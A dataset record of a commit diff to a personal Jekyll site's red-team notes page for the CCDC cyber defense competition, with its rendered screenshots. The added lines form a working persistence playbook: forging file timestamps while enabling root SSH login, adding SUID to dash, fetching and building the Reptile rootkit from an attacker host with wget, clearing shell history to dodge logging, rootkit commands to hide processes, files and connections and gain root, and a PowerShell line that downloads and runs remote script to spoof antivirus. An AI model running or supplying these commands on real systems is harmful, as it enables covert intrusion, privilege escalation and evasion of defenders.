

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 1400 px high, scrolled down 1814 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -77,19 +77,24 @@
 
 **Linux:**
 - Todo:
+  - Create a big zipped folder containing all necessary files (attacker and client)
   - Write a persistence script that does the following
+    - Gets all relevant files from kali
     - Backdoors PAM and adds the master password
+    - Permits root login: `sed -i '/PermitRootLogin/c\PermitRootLogin yes' /etc/ssh/sshd_config && touch -d "May 26 2020" /etc/ssh/sshd_config`
     - Adds a sliver script somewhere in the system
-    - Runs prism (on startup perhaps)
+    - Add suid dash: `chmod u+s $(which dash) && touch -d "April 16 2018" $(which dash)`
+    - Runs prism (on startup)
     - Hides all of the above with a rootkit
-  - Investigate these methods:
-    - TCP Wrapped Services: `echo 'ALL: ALL: spawn ({backdoor}) & :allow' >> /etc/hosts.allow)` (or `hosts.deny`)
-    - [Prism](https://github.com/andreafabrizi/prism) ICMP backdoor (connects out to host machine)
-    - https://github.com/milabs/awesome-linux-rootkits - list of rootkits
-      - https://github.com/carloslack/KoviD seems like a really solid candidate for hiding files, connections, and keylogging
-      - https://github.com/h3xduck/TripleCross this seems like a contender, except does support nearly as many linux kernels
-    - https://github.com/ait-aecid/caraxes/ - hides files, could we use this to hide an ssh key?
-    - https://github.com/draios/sysdig - `-c spy_users` can read every user command ran?
+      - If kernel 4 or below, use reptile:
+        - `wget {kali_IP}:{port}/reptile.tar.gz && tar -xvf reptile.tar.gz && cd Reptile-master`
+        - `apt install gcc make build-essential linux-headers-$(uname -r)`
+        - Default options seem good, so `sed -i 's/reptile/redteam/g' config/defconfig && make defconfig && make && make install`
+      - If kernel 5 or above,
+      - Will need `sysctl kernel.ftrace_enabled=1` and also check if `make` and `gcc` exist
+        - We need to look into installing these (among other packages) by pointing the installation to our IP instead of the internet
+    - Clear history: ` history -c && rm -f $HISTFILE`
+      - Having space is important, seems to prevent logging even on newer kernels
 - [PANIX](https://github.com/Aegrah/PANIX)
   - One-stop shop for a persistence script, this thing is NICE
     - `./panix.sh --suid --default` gives SUID to dash, python, and find
@@ -99,9 +104,40 @@
     - After specifying variables in C code itself, build with `gcc -DDETACH -DNORENAME -Wall -s -static -o {outfile} prism.c`
     - Run as root on victim, then to trigger do `sudo python2 sendPacket.py {target} {password_set} {attacker_IP} {attacker_port}`
   - This seems kinda cool, but wouldn't be anything special unless we could somehow hide the connection with a rootkit
-- [Kovid](https://github.com/carloslack/KoviD)
-  - By god what a beautiful piece of code
-  - Can get root as any process by running `kill -SIGCONT 666`
+- [Caraxes](https://github.com/ait-aecid/caraxes/)
+  - Seems to be pretty good for 5.14-6.11
+  - Will need to uncomment the `hide_module()` function
+  - This seems pretty good for hiding files - we can set the word to hide in `rootkit.h`
+- [TripleCross](https://github.com/h3xduck/TripleCross)
+  - Tested on 5.x kernels, so maybe a bit less reliable
+- [Reptile](https://web.archive.org/web/20250703011339/https://github.com/f0rb1dd3n/Reptile/archive/refs/heads/master.zip)
+  - Absolutely nutty rootkit for 2.6.x, 3.x, or 4.x, seems to be the go-to
+    - Has persistent, detection evasion, a nice management interface
+  - Downloadable [here](https://web.archive.org/web/20240220194314/https://codeload.github.com/f0rb1dd3n/Reptile/zip/refs/heads/master)
+  - Wiki [here](https://web.archive.org/web/20201226000229/https://github.com/f0rb1dd3n/Reptile/wiki/Install)
+  - Config:
+    - In `config/defconfig`, then after configuring we run `make defconfig`
+  - Install:
+    - `apt install build-essential linux-headers-$(uname -r)`
+    - `make menuconfig`, `make`, and `make install`
+  - Usage:
+    - `/reptile/reptile_cmd {show/hide}` to show/hide all hidden files
+    - `/reptile/reptile_cmd root` to get root
+    - `/reptile/reptile_cmd {show/hide} {pid}` to show/hide processes
+    - `/reptile/reptile_cmd conn {IP} {show/hide}` to show/hide ICP/UDP connections
+    - Content between `#<reptile>` and `#</reptile>` will be hidden
+      - Can be toggled with `reptile_cmd file-tampering`
+      - Works with both adding users to `/etc/passwd` and cron jobs
+        - Actually, having some trouble getting it working with cron jobs
+      - However, ssh seems resistant. Can't seem to permit root logins with a hidden line or add an hidden authorized keys file
+    - Couldn't get kali-side build working, so we can use prism for the shell
+- [Diamorphine](https://github.com/m0nad/Diamorphine/tree/master)
+  - Very nice compatibility across versions, pretty simple rootkit
+  - Usage
+    - Hide/show rootkit with `kill -63 {any_pid}`
+    - Become root with `kill -64 {any_pid}`
+    - Hide process with `kill -31 {pid_to_hide}`
+    - Hide files by modifying `MAGIC_PREFIX` in `diamorphine.h`
 
 
 ## Domain Persistence
@@ -216,6 +252,9 @@
 **Defender**
 - If we're local admin, we can just add an exclusion:
   - `Add-MpPreference -ExclusionPath "{path_to_excluded_folder}"`
+- We can spoof another antivirus with DefendNot
+  - `& ([ScriptBlock]::Create((irm https://dnot.sh/))) --name "{custom_AV_name}"`
+  - This does give a red defender icon, however
 - Permanently disable with:
   - `reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f`
   - `gpedit.msc` > Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus > Turn off Microsoft Defender Antivirus > Enabled
```
Also changed, not shown: markdown/PasswordAttacks.md (+1 -1 lines).
